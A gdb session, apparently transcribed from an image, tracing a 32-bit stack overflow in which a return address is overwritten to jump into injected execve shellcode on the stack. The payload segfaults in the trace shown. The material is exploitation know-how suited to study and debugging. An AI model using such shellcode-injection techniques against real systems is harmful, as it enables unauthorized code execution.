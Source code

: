 ```
0x08048099 in _start ()
=> 0x08048099 <_start+57>:	83 c4 14	add    esp,0x14
(gdb) x/32x $esp
0xffffcf94:	0xb0	0x0b	0xbb	0x62	0x61	0x73	0x68	0xcd
0xffffcf9c:	0x80	0x61	0x61	0x61	0x61	0x61	0x61	0x61
0xffffcfa4:	0x61	0x61	0x61	0x61	0x94	0xcf	0xff	0xff
0xffffcfac:	0x0a	0xcf	0xff	0xff	0x01	0x00	0x00	0x00
(gdb) ni
0x0804809c in _start ()
=> 0x0804809c <_start+60>:	c3	ret    
(gdb) p $esp
$2 = (void *) 0xffffcfa8
(gdb) ni
0xffffcf94 in ?? ()
=> 0xffffcf94:	b0 0b	mov    al,0xb
(gdb) ni
0xffffcf96 in ?? ()
=> 0xffffcf96:	bb 62 61 73 68	mov    ebx,0x68736162
(gdb) ni
0xffffcf9b in ?? ()
=> 0xffffcf9b:	cd 80	int    0x80
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0xffffcfa9 in ?? ()
=> 0xffffcfa9:	cf	iret 
(gdb) 
0xffffcfa9 in ?? ()
=> 0xffffcfa9:	cf	iret   
(gdb) info registers
eax            0xffffd08c	-12148
ecx            0xffffdd20	-8928
edx            0xffffdd06	-8954
ebx            0xffffdcf7	-8969
esp            0xffffdd28	0xffffdd28
ebp            0xffffdcbe	0xffffdcbe
esi            0xffffdcad	-9043
edi            0xffffdca0	-9056
eip            0xffffcfa9	0xffffcfa9
eflags         0x246	[ PF ZF IF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x0	0
(gdb) ni

Program received signal SIGSEGV, Segmentation fault.
0xffffcfa9 in ?? ()
=> 0xffffcfa9:	cf	iret   
(gdb) x/32x $esp
0xffffdd28:	0x4c	0x41	0x4e	0x47	0x55	0x41	0x47	0x45
0xffffdd30:	0x3d	0x65	0x6e	0x5f	0x55	0x53	0x00	0x47
0xffffdd38:	0x4e	0x4f	0x4d	0x45	0x5f	0x44	0x45	0x53
0xffffdd40:	0x4b	0x54	0x4f	0x50	0x5f	0x53	0x45	0x53
(gdb) x/60x 0xffffcf94
0xffffcf94:	0xb0	0x0b	0x31	0xc9	0x31	0xd2	0xbb	0x62
0xffffcf9c:	0x61	0x73	0x68	0xcd	0x80	0x61	0x61	0x61
0xffffcfa4:	0x61	0x61	0x61	0x61	0x94	0xcf	0xff	0xff
0xffffcfac:	0x0a	0xcf	0xff	0xff	0x01	0x00	0x00	0x00
0xffffcfb4:	0xaf	0xd1	0xff	0xff	0x00	0x00	0x00	0x00
```
